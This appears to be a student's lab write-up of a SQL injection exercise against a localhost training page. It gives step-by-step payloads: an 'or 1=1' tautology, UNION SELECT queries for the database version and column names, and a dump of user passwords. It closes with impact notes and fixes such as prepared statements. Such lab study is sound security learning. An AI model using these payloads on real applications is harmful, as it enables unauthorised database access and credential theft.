






# SQL Injection 0x01

## What is SQL Injection?
SQL Injection is a vulnerability where an attacker
can manipulate SQL queries by injecting malicious
input into a web application. This allows reading,
modifying or deleting database data.

## Target
http://localhost/labs/i0x01.php

## Vulnerability
The username search field passes user input
directly into a SQL query without sanitization.

## Attack

### Step 1 — Identify the lab
Opened the User Search page at:
localhost/labs/i0x01.php

### Step 2 — Test basic injection
Entered payload in username field:
jeremy' or 1=1#
Result: Returned all users in the database

### Step 3 — Extract database version
Payload used:
jeremy' union select null,null,version()#
Result: MySQL version 8.0.46 found

### Step 4 — Enumerate column names
Payload used:
jeremy' union select null,null,column_name 
from information_schema.columns#
Result: Found columns including password, 
username, role, mfa, bio

### Step 5 — Dump passwords
Payload used:
jeremy' union select null,null,password 
from injection0x01#
Result: Extracted all user passwords:
- jeremyspassword
- jessamyspassword  
- bobspassword

## Payloads Used
```sql
jeremy' or 1=1#
jeremy' union select null,null,version()#
jeremy' union select null,null,column_name from information_schema.columns#
jeremy' union select null,null,password from injection0x01#
```

## Screenshots







## Impact
- Full database contents exposed
- User credentials stolen
- Complete application compromise

## Fix
- Use prepared statements
- Never concatenate user input into SQL queries
- Implement input validation and sanitization
